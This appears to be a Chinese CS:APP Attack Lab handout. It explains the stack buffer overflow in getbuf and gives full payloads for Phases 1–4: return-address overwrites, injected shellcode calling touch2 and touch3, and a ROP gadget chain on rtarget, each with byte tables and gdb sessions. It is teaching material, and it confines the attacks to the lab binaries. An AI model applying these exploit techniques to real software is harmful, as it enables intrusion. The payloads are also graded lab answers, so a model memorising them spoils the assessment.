| Cookie 数值（touch2 的参数） | 4 字节整数 | 4 字节小端；放进 8 字节槽时高 4 字节补 0 | 0x61cc754a → 4a 75 cc 61 00 00 00 00 |
| Cookie 字符串（touch3 的参数） | 9 字节 | 8 个 ASCII 字符正序 + 00 | 36 31 63 63 37 35 34 61 00 |
| 指令里的 imm32 | 4 字节字段 | 按指令编码小端；整条指令长度另算 | 48 c7 c7 4a 75 cc 61 |
| int 型 len（Phase 6） | 4 字节 | 4 字节小端 | 0x128 → 28 01 00 00 |
小端只决定多字节数的排列，不决定宽度。一条指令的立即数字段可能只有 4 字节，pushq $imm32 的编码含 4 字节立即数但执行时按符号扩展占 8 字节栈空间；int len 是 4 字节；返回地址和 ROP 地址槽按本讲义的构造约定写满 8 字节。把这些对象都写成“一律 8 字节”会把指令编码、数据宽度和栈槽消费混在一起。
同一份 Cookie 0x61cc754a 的数值形式是 4a 75 cc 61 00 00 00 00，字符串形式是 36 31 63 63 37 35 34 61 00。前者是把整数当 32 位数倒着拆，后者是把 8 个字符按 ASCII 正着排；Phase 2、4 要数值，Phase 3、5、6 要字符串指针。
表 8 本材料六个 Payload 的有效长度与 raw 文件长度
| Phase | 有效攻击串字节数 | raw 文件字节数 | 差异 |
|---|---|---|---|
| 1 | 32 | 33 | 末尾换行 0x0a |
| 2 | 32 | 33 | 末尾换行 0x0a |
| 3 | 41 | 42 | 末尾换行 0x0a |
| 4 | 56 | 57 | 末尾换行 0x0a |
| 5 | 113 | 114 | 末尾换行 0x0a |
| 6 | 136 | 137 | 末尾换行 0x0a |
生成之后建议检查字节数：wc -c exploit.raw 核对的是 raw 文件长度；xxd exploit.raw | tail -2 可以看到最后一个槽与末尾换行。改文本后一定要重新生成 .raw；很多“跑不出结果”的问题其实是旧文件残留。
1.3 objdump 与 gdb#
objdump -d 是读目标程序的主要工具。定位某个函数可以用 --disassemble=函数名；按地址看一段（例如农场里的 Gadget）可以用 --start-address 与 --stop-address。objdump 打印的是链接时的虚拟地址（非 PIE 可执行文件）或相对加载基址的地址（PIE），不是文件的字节偏移；地址是否要加基址，取决于程序是不是 PIE。下面是从本实例 ctarget 导出的 getbuf：
0000000000401c1c <getbuf>:
401c1c: endbr64
401c20: sub $0x18,%rsp
401c24: mov %rsp,%rdi
401c27: call 401f83 <Gets>
401c2c: mov $0x1,%eax
401c31: add $0x18,%rsp
401c35: ret这九行给出了本实例的核心事实：sub $0x18,%rsp 在栈上腾出 24 字节，mov %rsp,%rdi 把腾出后的 %rsp 作为 Gets 的目标，add $0x18,%rsp 之后 %rsp 回到返回地址槽，ret 把这个槽弹出到 %rip。但“sub 的立即数是 24”只说明这次序言分配了 24 字节空间，不自动等于 C 数组一定正好 24 字节；若源码里 buf 通过 lea 从别的位置取地址，buf 到返回地址的距离要按实际地址差计算。本实例恰好是 mov %rsp,%rdi，所以 buf 起点等于分配后的 %rsp。
gdb 用来核对“程序实际走到了哪、寄存器里是什么”。最常用的流程是：在 ret 之前下断点（例如 break *0x401c35）、用 run -q -i exploit.raw 运行、用 x/4gx $rsp 看栈上的返回地址槽、用 stepi 单步越过 ret、再用 x/i $rip 确认跳到了哪里。下面是从本实例 Phase 1 抓取的真实会话：
(gdb) break *0x401c35
(gdb) run -q -i phase1.raw
Breakpoint 1, 0x0000000000401c35 in getbuf ()
(gdb) p/x $rsp
$1 = 0x5560f6e0
(gdb) x/4gx $rsp
0x5560f6e0: 0x0000000000401ca8 0x0000000000000000
(gdb) x/i $rip
=> 0x401c35 <getbuf+25>: ret
(gdb) stepi
(gdb) p/x $rip
$2 = 0x401ca8这段会话同时说明了三件事：返回地址槽在 0x5560f6e0；槽里已经是 touch1 的地址 0x401ca8；执行一条 ret 之后 %rip 变成 0x401ca8。%rsp 的具体数值受运行环境影响；测验不会要求记住某个运行地址，而是要求根据现场或题目给出的地址推偏移。注意 gdb 的每条命令是否已经执行完毕：p/x $rip 在 stepi 之后才是 touch1，不能把尚未执行的指令当成已发生。
表 9 Attack Lab 中最常用的 gdb 命令
| 命令 | 作用 |
|---|---|
break *0x401c35 | 在 getbuf 的 ret 指令处下断点 |
break *0x401cdc | 在 touch2 入口下断点 |
run -q -i exploit.raw | 以本地模式、指定输入文件运行 |
x/4gx $rsp | 按 8 字节十六进制看栈上的 4 个槽 |
x/6i $rip | 从当前指令开始反汇编 6 条 |
stepi / nexti | 单步一条机器指令；nexti 会越过 call |
continue | 继续运行到下一个断点 |
info registers rdi rsi rsp | 查看参数寄存器与栈指针 |
p/x $rdi / p/d $rdi | 以十六进制/十进制打印寄存器 |
x/s $rdi | 把 rdi 指向的内容当字符串打印 |
find /b $rsp-0x400,$rsp+0x400,0x36,0x31,0x63 | 在栈附近按字节搜索字符串或特征值；搜不到时先确认是否按 ASCII 写 |
把汇编转成机器码可以用 gcc -c 或 as 汇编一个 .s 文件，再用 objdump -d 读回字节。例如 pushq $0x401cdc 编码为 68 dc 1c 40 00，retq 编码为 c3。测验中如果要求从选项里选出机器码，先写出指令的固定前缀（例如 48 c7 c7 表示 movq $imm32,%rdi），再按该指令的立即数宽度和小端规则填数。
1.4 -q 参数、课程上报与安全边界#
三个目标程序都支持 -i FILE（从文件读输入）和 -q（本地模式）。-q 的含义是只在本地校验、不向评分服务器发送请求，不是关闭程序输出；去掉 -q 才会连接课程服务器。课程中每个 Phase 通过后都会自动上报结果，并不是“以最后一次提交决定判分”；因此调试时要下断点观察关键状态，不能等程序自己跑完再猜哪里错。Attack 的失败不扣分，这一点和 Bomb 的爆炸扣分不同。
⚠ 只在课程实验范围内使用这些技术
本讲义讨论的是 CS:APP 教学目标程序（ctarget / rtarget / starget）里的内存安全问题，目的是理解栈帧、防护机制与 ROP 的原理，应对课程的 Lab 测验。所有攻击串只对本实验的二进制有效，不要用于任何未经授权的程序或真实系统；也不要绕过课程的校验逻辑或将 Payload 提交到非本人的账号。实验说明允许在实验环境内自由尝试，边界也仅限这个环境。
除了 -q，还有四条会直接影响成败的规则。第一，有效攻击串内部不能有 0x0a，否则 Gets 提前截断；末尾换行是正常终止符。第二，返回地址只能用允许的几类（touch 函数、注入代码、农场 Gadget）。第三，Gadget 必须落在农场范围内，并按完整解码和副作用检查。第四，程序通过后会打印一段包含账号信息的“Would have posted”结果；这是评分协议格式，不属于讲义内容，记录和截图都应避开。
表 10 本地验证与课程上报的差别
| 场景 | 做法与注意 |
|---|---|
| 本地反复试验 | 始终加 -q；输入用 -i exploit.raw；不向服务器发送请求 |
| 课程上报 | 去掉 -q，由程序连接课程服务器；只提交本人账号的 Payload |
| 生成输入 | hex2raw 只做文本到字节的转换；改文本后重新生成 .raw |
| 记录结果 | 只保留 PASS 与 touch 函数输出；避开包含账号/学号的结果段 |
| 调试方式 | 在关键指令下断点，观察每次停点；不要等失败后再猜 |
第二部分 方法工具箱#
这一部分把六个 Phase 共用的五个基础工具讲透：无界写入为什么能改返回地址；call/ret/push/pop 怎样改变 %rsp；getbuf 的栈账本怎样逐项对账；宽度和小端怎样区分；以及后续函数调用为什么会踩坏放在低地址的字符串。
2.1 漏洞根源：Gets 的无界写入#
getbuf 的 C 代码只有五行，核心是 Gets(buf)：
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}Gets 的行为与标准库 gets 类似：从标准输入读一行，一直读到换行符或 EOF，把读到的每个字节依次写到目标地址，最后补一个 0x00。它不接收容量参数，输入多长就写多长，因此无法阻止越过 buf 的边界。安全版本 fgets(buf, size, stdin) 会限制最多写 size-1 个字节，但前提是 size 不大于目标对象的实际容量；把过大的 size 传给一个小数组，仍然会越界。fgets 的接口能防的是“不知道目标容量”，不能代替调用者对容量的正确判断。
于是 buf 之后的内存都可能被输入覆盖：先是编译器安排的填充或相邻局部变量，然后是保存的 %rbp、返回地址，再往高地址是调用者 test 的栈帧。Phase 1 只需要覆盖到返回地址；Phase 2、3 还要把机器码或字符串放进 buf；Phase 6 则利用“缓冲区上方还有局部变量 len"这一布局。C 数组大小、编译器实际分配的栈空间、buf 到返回地址的距离是三个不同的量，后文会分别说明如何从地址得到它们。
2.2 call、ret、push、pop 的栈账本#
函数调用与返回在普通 64 位近调用模型中的状态变化如下。call 把下一条指令的地址压栈，ret 从栈顶弹出 8 字节送入 %rip 并把 %rsp 加 8；8 字节的 push 把 %rsp 减 8 后写入，pop 读出后把 %rsp 加 8。普通 System V 调用边界要求调用前 %rsp % 16 = 0，因此函数刚入口、尚未执行序言时通常 %rsp % 16 = 8；返回地址位于入口的 (%rsp)，第一个栈上传参位于入口 %rsp+8，而不是反过来。
表 11 普通 call/ret/push/pop 对栈的影响
| 动作 | %rsp 变化 | 说明 |
|---|---|---|
| call | 减 8 | 把返回地址写到新的栈顶 |
| ret | 加 8 | 先读出原栈顶 8 字节送入 %rip，再加 |
| push 源 | 减 8 | 写入 8 字节；立即数按编码符号扩展 |
| pop 目标 | 加 8 | 读出 8 字节后加；目标为 %rsp 时语义特殊，需按指令定义 |
画栈账本时有两个高频误区。第一，不要以为只有 call 会改 %rsp：call、ret、push、pop、sub、add（例如 add $0xffffffffffffff80,%rsp 等价于 sub $0x80,%rsp）和 leave 都会改变 %rsp，尤其不能漏算 ret 弹出后 %rsp 会加 8。第二，push 与 pop 的方向不要混：push %rbx 是把 %rbx 的值抄到栈顶，只改 %rsp 和栈内存，不改 %rbx 本身；pop %rax 才会把栈顶读进 %rax 并把 %rsp 加 8。
在本实验的普通返回模型里，ret 的效果可以类比为“pop %rip”：它不检查目标是否是合法函数入口，也不检查栈是否被写过。但 pop %rip 不是可以直接汇编的指令，也不是完整的硬件或安全模型；异常、页执行权限、影子栈等机制不在这个简化描述里。这个模型足够解释本讲的六关，但不能外推到所有系统和所有返回指令。
2.3 从实际地址恢复 getbuf 布局#
以本实例 ctarget 为例，getbuf 的汇编在 1.3 节已经给出。设 buf 的起始地址为 B，进入 getbuf 前调用者 test 的 %rsp 是 B+32，整个过程的账本如下。
表 12 getbuf 执行全周期的栈账本（B 为 buf 起始地址）
| 时刻 | %rsp | 说明 |
|---|---|---|
test 执行 call getbuf 之前 | B+32 | 调用者的栈顶；调用前模 16 为 0 |
| call 压入返回地址后（getbuf 入口） | B+24 | 返回地址槽 = B+24 至 B+31；入口模 16 为 8 |
sub $0x18,%rsp 之后 | B | 分配 24 字节；mov %rsp,%rdi 把 B 作为 Gets 目标 |
| Gets 返回后 | B | 有效输入写 B 起；终止 NUL 紧接输入末尾 |
add $0x18,%rsp 之后、ret 之前 | B+24 | 栈顶正好是返回地址槽 |
ret 弹出后 | B+32 | 跳到返回地址；栈顶越过返回地址槽 |
图 1 getbuf 的空间布局与时间账本（高地址在上）
由此得到三条结论。第一，从 buf 起点到返回地址槽的距离是“返回地址槽地址减 B”，本实例由序言和 mov %rsp,%rdi 得到 24；sub 的立即数描述这次分配的空间，若 buf 不由当前 %rsp 直接形成，不能把立即数直接当成数组大小。第二，ret 弹出后 %rsp 是 B+32，而不是 B+24；Phase 5 计算字符串地址时，第一条 Gadget 看到的 %rsp 已经是 B+32。第三，返回地址槽是 8 字节；只覆盖低 4 字节会保留高 4 字节的旧值，如果旧值的高 4 字节恰好等于目标高 4 字节，可能“碰巧”得到正确地址，但这依赖旧内容，不应作为构造方法。本讲义一律写满 8 字节。
2.4 宽度、端序与扩展#
这是考试中最高频的混淆点。判断方法不是背“小端”两个字，而是先问：这个对象在程序里是什么类型、占多少字节，再问多字节数怎样排列。
表 13 对象宽度与字节写法
| 对象 | 宽度 | 写法 |
|---|---|---|
| 返回地址 / ROP 地址槽 | 8 字节 | 小端，低位字节在低地址 |
| Cookie 数值（touch2 的 %rdi） | 4 字节整数 | 4 字节小端；放进 8 字节槽时高 4 字节补 0 |
| Cookie 字符串（touch3 的 %rdi） | 9 字节 | 8 个 ASCII 字符正序 + 终止 NUL 00 |
| 指令立即数 imm32 | 4 字节字段 | 按指令编码小端；整条指令长度另算 |
| int 型 len（Phase 6） | 4 字节 | 4 字节小端 |
| Phase 5 的偏移 D | 8 字节槽 | 数值小，经 movl 零扩展后送入 rsi |
以本实例 Cookie 0x61cc754a 为例，数值形式在内存中是 4a 75 cc 61 00 00 00 00，字符串形式是 36 31 63 63 37 35 34 61 00。两者完全不同：前者把 0x61cc754a 当整数倒着拆，后者把 “61cc754a” 这 8 个字符按 ASCII 正着排。若 Cookie 有前导零，字符串必须保留八位十六进制字符，不能因为数值相同就少写。
还有一个容易忽略的细节：写入 32 位寄存器会把高 32 位清零，例如 movl %eax,%edx 之后 %rdx 的高 32 位为 0；Phase 5 利用这一点把小的非负偏移从 %rax 逐级搬到 %rsi。反过来，movq $imm32,r64 这种编码会把 32 位立即数符号扩展到 64 位：用它载入非负地址时，安全范围是 0 到 0x7fffffff，不是所有 32 位无符号地址。pushq $imm32 的编码含 4 字节立即数，执行时符号扩展后占 8 字节栈空间。不要把“32 位”笼统当成“安全”，要看清是符号扩展还是零扩展、讨论的是立即数还是数据通路。
2.5 后续调用怎样影响已有输入#
Phase 3 的 touch3 接收的是字符串指针，不是数值。错误的 Payload 常把字符串紧挨着代码放在 buf 的低地址处，结果程序能跳到 touch3，却打印出乱码或空串。原因是函数调用会继续使用栈：touch3 的序言先 push %rbx，然后调用 hexmatch；hexmatch 自己又压三个寄存器并把 %rsp 减少 0x80，给局部数组腾空间。这些指令中，只有真正写内存的 push、call、保存 Canary 和局部数组写入才会改变内容；单纯 sub 只改变 %rsp，不等于把下面的字节都写了一遍。判断字符串是否安全，要看“实际写入区间”，不能只看“高地址/低地址”四个字。
表 14 Phase 3 中一次 touch3/hexmatch 调用实际写入的区域
| 动作 | 实际写入的地址 | 对 Payload 的影响 |
|---|---|---|
| getbuf 的 ret 弹出 | 读 B+24 至 B+31，随后栈顶到 B+32 | 返回地址生效 |
| 注入代码 push touch3; ret | 写 B+24 至 B+31，栈顶回到 B+32 | 再次覆盖返回地址槽 |
touch3 的 push %rbx | 写 B+24 至 B+31 | 覆盖返回地址槽 |
| hexmatch 的 push、Canary 与局部数组 | 约 B-0x88 至 B+23 的若干区间 | 代码区与 buf 内的字符串可能被踩 |
| 字符串放在 B+32 及以上 | 不在上述写入区间 | 本实例的安全选择 |
所以 Phase 3 的布局是“代码在 buf 开头，返回地址填 B，字符串放在整个 Payload 的末尾（B+32 起）”。这样 touch3 与 hexmatch 的写入不触及字符串。这个结论依赖本实例的实际写入范围；换布局后要重新列区间，不能把“高地址”当成脱离具体写入范围的绝对安全保证。Phase 5、6 的字符串同样要放在链之后，并用实际地址差验证。
第三部分 逐关详解#
这一部分按 Phase 1 到 Phase 6 逐关展开。每一关都先说明题意与挑战目标，再给出关键汇编和等价的 C，接着用表格列出 Payload 的每个槽位，随后用 gdb 现场确认，最后归纳易错点和一个同类变体。为了便于复算，本实例统一使用 Cookie 0x61cc754a；如果换成别的 Cookie，只需替换相应的数值和字符串。验证环境中的 buf 起始地址是 0x5560f6c8（用 gdb 在 getbuf 的 sub 之后读出；换环境时按现场值替换，偏移不变）。
3.1 phase 1：把返回地址改成 touch1#
Phase 1 不注入任何代码，只要求 getbuf 执行 ret 时跳到 touch1。touch1 的 C 代码只打印一句话并调用 validate(1)，不接收参数，入口地址是 0x401ca8（ctarget）。因此攻击串只需做一件事：把返回地址槽的 8 字节从原来的 test+... 改成 0x401ca8。
0000000000401ca8 <touch1>:
401ca8: endbr64
401cac: push %rax
401cad: pop %rax
401cae: sub $0x8,%rsp
401cb2: movl $0x1,0x4868(%rip) # 406524 <vlevel>
401cbc: lea 0x2952(%rip),%rdi # 404615 <_IO_stdin_used+0x615>
401cc3: call 401080 <puts@plt>
401cc8: mov $0x1,%edi
401ccd: call 402200 <validate>
401cd2: mov $0x0,%edi
401cd7: call 4011e0 <exit@plt>完整的 C 语义如下（已省略与利用无关的细节）：
void touch1()
{
vlevel = 1;
printf("Touch1!: You called touch1()\n");
validate(1);
exit(0);
}汇编说明 touch1 一进来就调用 validate 和 exit，不会再返回 getbuf，所以覆盖返回地址后不需要考虑“回来怎么办”。Payload 的布局是 24 字节哑数据加 8 字节地址：
表 15 Phase 1 的 Payload（共 32 字节）
| 偏移 | 长度 | 内容（十六进制） | 说明 |
|---|---|---|---|
| 0–23 | 24 | 00 × 24 | 填满 buf，不要求有意义 |
| 24–31 | 8 | a8 1c 40 00 00 00 00 00 | touch1 地址 0x401ca8，小端 |
用 gdb 在 getbuf 的 ret 处（0x401c35）停下，可以看到返回地址槽里已经是我们写入的 0x401ca8；执行一条 stepi 之后 %rip 就变成 0x401ca8：
(gdb) p/x $rsp
$1 = 0x5560f6e0
(gdb) x/4gx $rsp
0x5560f6e0: 0x0000000000401ca8 0x0000000000000000
(gdb) stepi
(gdb) p/x $rip
$2 = 0x401ca8⚠ 三个常见错误
第一，误以为“溢出的数据会自动执行”，返回地址槽仍留着原值，程序照常回到 test。第二，偏移写成 20 或 28：本实例中 buf 起点到返回地址槽的实际距离是 24；它恰好等于 sub 的立即数，但换布局时要以实际地址差为准。第三，只写 4 字节地址会保留高 4 字节的旧值；若旧高 4 字节恰好等于目标高 4 字节，可能碰巧成功，但不应依赖。写满 8 字节最清晰。
同类变体
若题目把 sub 改成 0x20 且 buf 仍由 %rsp 形成，偏移是 32；若 buf 由 lea 从别的位置形成，偏移按“返回地址槽地址减 buf 起点”重算。若 getbuf 用 push 保存寄存器，还要把压栈字节计入分配空间。也可能要求跳到 touch2 并伪造参数，这时在 Phase 1 的基础上多一步“设置参数寄存器”。读题时先找 sub 和 ret，再决定填多少。
3.2 phase 2：注入代码调用 touch2(cookie)#
Phase 2 要求让 touch2(0x61cc754a) 执行。touch2 从其第一个参数 %edi 取 val，与全局 cookie 比较：相等就走成功分支，否则 Misfire。入口地址是 0x401cdc。由于 ctarget 的栈可执行，我们可以在 buf 里写一段机器码，把返回地址改成 buf 的起始地址，让 ret 跳进这段代码。
0000000000401cdc <touch2>:
401cdc: endbr64
401ce0: push %rax
401ce1: pop %rax
401ce2: sub $0x8,%rsp
401ce6: mov %edi,%edx
401ce8: movl $0x2,0x4832(%rip) # 406524 <vlevel>
401cf2: cmp %edi,0x4834(%rip) # 40652c <cookie>
401cf8: je 401d24 <touch2+0x48>
401cfa: lea 0x24a7(%rip),%rsi # 4041a8 <_IO_stdin_used+0x1a8>
401d01: mov $0x2,%edi
401d06: mov $0x0,%eax
401d0b: call 401190 <__printf_chk@plt>完整的 C 语义如下，成功分支也一并写出：
void touch2(unsigned val)
{
vlevel = 2;
if (val == cookie) {
printf("Touch2!: You called touch2(0x%.8x)\n", val);
validate(2);
} else {
printf("Misfire: You called touch2(0x%.8x)\n", val);
fail(2);
}
exit(0);
}注入代码只需要三条指令：movq $cookie,%rdi 把参数放进第一个参数寄存器；pushq $touch2 把目标地址压栈；retq 立刻弹出并跳转。按 1.2 节的机器码规则，这三条指令正好 13 字节：
0000000000000000 <injected>:
0: 48 c7 c7 4a 75 cc 61 mov $0x61cc754a,%rdi
7: 68 dc 1c 40 00 push $0x401cdc
c: c3 ret13 字节之后补 11 个 00 凑满 24 字节的 buf，第 24–31 字节填 buf 的起始地址。执行 ret 后跳到 buf，依次执行三条指令：%rdi 变成 cookie，push 把 touch2 地址放到栈顶，ret 弹出并进入 touch2。
表 16 Phase 2 的 Payload（共 32 字节）
| 偏移 | 长度 | 内容（十六进制） | 说明 |
|---|---|---|---|
| 0–12 | 13 | 48 c7 c7 4a 75 cc 61 68 dc 1c 40 00 c3 | 注入代码 |
| 13–23 | 11 | 00 × 11 | 补齐到 buf 末尾 |
| 24–31 | 8 | c8 f6 60 55 00 00 00 00 | buf 地址 0x5560f6c8，小端 |
gdb 在 getbuf 的 ret 前停下时，返回地址槽里是 0x5560f6c8；单步后 %rip 指向注入代码的第一条 mov，再继续到 touch2 入口时 %rdi 已经是 Cookie：
(gdb) break *0x401c35
(gdb) break *0x401cdc
(gdb) run -q -i phase2.raw
Breakpoint 1, 0x0000000000401c35 in getbuf ()
(gdb) x/2gx $rsp
0x5560f6e0: 0x000000005560f6c8 0x0000000000000000
(gdb) si
(gdb) x/4i $rip
=> 0x5560f6c8: mov $0x61cc754a,%rdi
0x5560f6cf: push $0x401cdc
0x5560f6d4: ret
(gdb) continue
Breakpoint 2, touch2 (val=1640789322) at visible.c:40
(gdb) p/x $rdi
$1 = 0x61cc754a⚠ 机器码、参数时机与栈对齐
第一，Payload 的结构是“注入指令 + 填充 + 指向指令的地址”，同一串输入字节既作数据又作代码和地址；若把前 24 字节全填 00、把指令放在返回地址之后，ret 会从返回地址槽弹出 0 直接跳到地址 0，立刻段错误。第二，movq $imm32,%rdi 的编码是 48 c7 c7 加 4 字节立即数，立即数按小端写；若写成 movl 会得到 bf 前缀但只改 32 位，高 32 位清零，对正数 Cookie 恰好也正确，但做题时要按题意选。第三，不要停在 getbuf 的 ret 处看 %rdi：那时注入代码还没执行，参数当然还不是 Cookie，应在 touch2 入口或执行完 mov 后看。第四，栈对齐不能靠 push/ret 自动修复。getbuf 的 ret 弹出后 %rsp = B+32（模 16 为 0）；push 目标再 ret 的净变化为 0，进入 touch2 时仍是 0，而普通函数入口期望 8。touch2 的序言里 sub $0x8,%rsp 把它调到 8 后才调用 printf，所以本实例不崩。换链或增减 pop 时，要按入口模值和每条指令的栈增量逐项算，不能只数 push/pop 个数。
同类变体
变体可能改 Cookie、改目标函数（touch2 的地址不同）、或要求用 movl 而不是 movq 设置参数。13 字节代码可以放进 16 字节的 buf；只有 buf 小于 13 字节（例如 12 字节）才装不下。若 buf 确实太小，可以把代码放到返回地址之后的高地址处，并把返回地址改为那段代码的地址；这时偏移计算要先跳过返回地址槽。
3.3 phase 3：传字符串给 touch3#
Phase 3 要求让 touch3("61cc754a") 执行。touch3 的第一个参数 %rdi 是字符串指针，它把指针和全局 cookie 一起交给 hexmatch，后者把 cookie 格式化成 8 位十六进制字符串，再用 strncmp 与传入的字符串比较前 9 字节。入口地址是 0x401e02。
0000000000401e02 <touch3>:
401e02: endbr64
401e06: push %rbx
401e07: mov %rdi,%rbx
401e0a: movl $0x3,0x4710(%rip) # 406524 <vlevel>
401e14: mov %rdi,%rsi
401e17: mov 0x470f(%rip),%edi # 40652c <cookie>
401e1d: call 401d46 <hexmatch>
401e22: test %eax,%eax
401e24: je 401e53 <touch3+0x51>
401e26: mov %rbx,%rdx
401e29: lea 0x23a0(%rip),%rsi # 4041d0 <_IO_stdin_used+0x1d0>
401e30: mov $0x2,%edi
401e35: mov $0x0,%eax
401e3a: call 401190 <__printf_chk@plt>touch3 的完整 C 语义如下：
void touch3(char *sval)
{
vlevel = 3;
if (hexmatch(cookie, sval)) {
printf("Touch3!: You called touch3(\"%s\")\n", sval);
validate(3);
} else {
printf("Misfire: You called touch3(\"%s\")\n", sval);
fail(3);
}
exit(0);
}hexmatch 的栈帧正是 2.5 节讨论的“踩踏源”。它的开头先压三个寄存器，再把 %rsp 减少 0x80 给 cbuf[110] 腾地方；反汇编把这一步写作 add $0xffffffffffffff80,%rsp，等价于 sub $0x80,%rsp，不要写成减负数。随后调用 random、sprintf、strncmp。hexmatch 自己也带 Canary，这再次说明“程序没有金丝雀”不能按整个程序说。
0000000000401d46 <hexmatch>:
401d46: endbr64
401d4a: push %r12
401d4c: push %rbp
401d4d: push %rbx
401d4e: add $0xffffffffffffff80,%rsp
401d52: mov %edi,%ebp
401d54: mov %rsi,%rbx
401d57: mov %fs:0x28,%rax
401d60: mov %rax,0x78(%rsp)
401d65: xor %eax,%eax
401d67: call 401160 <random@plt>int hexmatch(unsigned val, char *sval)
{
char cbuf[110];
char *s = cbuf + random() % 100;
sprintf(s, "%.8x", val);
return strncmp(sval, s, 9) == 0;
}比较的是 9 个字节：8 个十六进制字符再加字符串末尾的 NUL。因此 Payload 里的字符串必须是 8 个字符加一个 00，共 9 字节；只写 8 个字符而不写 NUL，会让 strncmp 读到相邻的无关字节。
注入代码变为“把 B+32 放进 %rdi，再 push touch3 并 ret”。因为 B+32 = 0x5560f6e8 落在 movq $imm32,r64 符号扩展的安全范围内（0 到 0x7fffffff），可以用 48 c7 c7 加 4 字节立即数来写。该编码把 32 位立即数符号扩展到 64 位；若地址超过 0x7fffffff，不能只看“不超过 32 位”，要改用 movabsq 或用多条指令拼。
表 17 Phase 3 的 Payload（共 41 字节；B = 0x5560f6c8）
| 偏移 | 长度 | 内容（十六进制） | 说明 |
|---|---|---|---|
| 0–12 | 13 | 48 c7 c7 e8 f6 60 55 68 02 1e 40 00 c3 | movq $B+32,%rdi; pushq touch3; ret |
| 13–23 | 11 | 00 × 11 | 补齐到 24 字节 |
| 24–31 | 8 | c8 f6 60 55 00 00 00 00 | buf 地址 B |
| 32–40 | 9 | 36 31 63 63 37 35 34 61 00 | 字符串 "61cc754a" + NUL |
为什么字符串放在 B+32？getbuf 的 ret 弹出后 %rsp 是 B+32；注入代码 push/ret 之后进入 touch3 时 %rsp 仍是 B+32。随后 touch3 的 push、hexmatch 的 push 和 sub $0x80 都写在 B+32 以下，字符串在 B+32 及以上就不会被覆盖。gdb 在 touch3 入口停住时可以看到指针和字符串内容：
(gdb) break *0x401e02
(gdb) run -q -i phase3.raw
Breakpoint 1, touch3 (sval=0x5560f6e8 "61cc754a") at visible.c:71
(gdb) p/x $rdi
$1 = 0x5560f6e8
(gdb) x/s $rdi
0x5560f6e8: "61cc754a"
(gdb) x/16bx $rdi
0x5560f6e8: 0x36 0x31 0x63 0x63 0x37 0x35 0x34 0x61
0x5560f6f0: 0x00 0x00 0x40 0x00 0x00 0x00 0x00 0x00⚠ 字符串的两种写法与两个地址
第一，Cookie 字符串必须按字符正序写（36 31 63 63 37 35 34 61 00），不能按数值小端倒着写；反过来，返回地址和 movq 的立即数必须按小端写。第二，push 的目标必须是 touch3（0x401e02），不是 hexmatch（0x401d46）；跳到 hexmatch 会把参数解释成另一个函数调用，直接崩。第三，字符串放在低地址会被 hexmatch 的栈帧覆盖，表现为打印乱码或空串。
同类变体
若缓冲区更大、需要在字符串前多放代码，字符串仍应放在整个 Payload 的最后；若 touch3 的地址超过 32 位，注入代码需要 movabsq（48 b8 加 8 字节立即数）或分两次写。题目也可能要求把字符串放在返回地址槽之后而不是 buf 之内的固定偏移，这时先用 gdb 确认 buf 和字符串的实际地址再算偏移。
3.4 phase 4：rtarget 上的 ROP 版 touch2#
Phase 4 与 Phase 2 目标相同，都是调用 touch2(cookie)，但换成 rtarget：栈不可执行，不能把代码放在 buf 里执行；同时栈地址随机化，不能把返回地址指向栈。可用的只有代码段的 Gadget。ROP 并不是另起炉灶，底层的 ret = pop %rip 接力模型与 Part I 完全相同，只是把返回地址从 buf 换成农场里现成的代码片段。rtarget 的 touch2 入口是 0x401c6a，农场范围是 start_farm（0x401ed6）到 end_farm（0x40209b）。这里 touch2 的 C 语义与 3.2 节相同，参数仍然是数值。
判断一个 Gadget 是否可用，不能只看地址是否落在农场区间。还要看从该地址起解码出的完整指令序列是否以 ret 结束、是否只使用 handout 允许的指令和寄存器、是否破坏了链需要的寄存器或标志位。start_farm 到 mid_farm 是 handout 对本关所需 Gadget 的范围提示；后半场不是自动禁区，前半场也不是自动合法。
表 18 rtarget 与 starget 的农场边界和关键函数
| 符号 | rtarget | starget | 用途 |
|---|---|---|---|
| start_farm | 0x401ed6 | 0x401edd | 农场起点 |
| mid_farm | 0x401f35 | 0x401f3c | 前后半场分界 |
| end_farm | 0x40209b | 0x4020a2 | 农场终点 |
| add_xy | 0x401f3f | 0x401f46 | 两数相加 |
最短的链只需要两个 Gadget。第一个是 popq %rax; retq，地址 0x401eff；它把栈上紧随其后的 8 字节弹出到 %rax。第二个是 movq %rax,%rdi; retq，地址 0x401f08；它把 %rax 搬到第一个参数寄存器。两者的字节序列都藏在农场函数的长指令中间：
0000000000401eff <addval_232+0x9>:
401eff: 58 pop %rax
401f00: c3 ret
0000000000401f08 <addval_328+0x7>:
401f08: 48 89 c7 mov %rax,%rdi
401f0b: c3 ret0x401eff 处的 58 c3 原本是某条长指令的一部分，从中间开始解码就得到 pop %rax; ret。0x401f08 处的 48 89 c7 c3 同理。Payload 是“24 字节填充 + 四个 8 字节槽”：第一个槽是 Gadget 地址，第二个是 Cookie 数值，第三个是下一个 Gadget，第四个是 touch2。链的数据流可以写成下面的伪代码（不是可直接编译的 C）：
/* 伪代码：Phase 4 的寄存器数据流 */
rax = 栈上 Cookie 数据; /* pop %rax; ret 消耗一个 8 字节数据槽 */
rdi = rax; /* mov %rax,%rdi; ret */
ret 到 touch2; /* 进入 touch2 时 %rdi 已是 Cookie */表 19 Phase 4 的 Payload（共 56 字节）
| 偏移 | 长度 | 内容（十六进制） | 说明 |
|---|---|---|---|
| 0–23 | 24 | 00 × 24 | 填充到返回地址槽 |
| 24–31 | 8 | ff 1e 40 00 00 00 00 00 | pop %rax; ret（0x401eff） |
| 32–39 | 8 | 4a 75 cc 61 00 00 00 00 | Cookie 数值 |
| 40–47 | 8 | 08 1f 40 00 00 00 00 00 | mov %rax,%rdi; ret（0x401f08） |
| 48–55 | 8 | 6a 1c 40 00 00 00 00 00 | touch2（0x401c6a） |
运行时，getbuf 的 ret 先跳到 0x401eff，pop 从栈槽 32 取出 Cookie 放进 %rax，随后 ret 跳到槽 40 的 0x401f08；mov 把 Cookie 送进 %rdi，再 ret 到槽 48 的 touch2。gdb 在 pop 处可以看到栈上“地址—数据—地址”交替排列：
(gdb) break *0x401eff
(gdb) break *0x401f08
(gdb) break *0x401c6a
(gdb) run -q -i phase4.raw
Breakpoint 1, 0x0000000000401eff in addval_232 ()
(gdb) x/2gx $rsp
0xf9e0212fbc50: 0x0000000061cc754a 0x0000000000401f08
(gdb) si
(gdb) si
Breakpoint 2, 0x0000000000401f08 in addval_328 ()
(gdb) p/x $rax
$1 = 0x61cc754a
(gdb) si
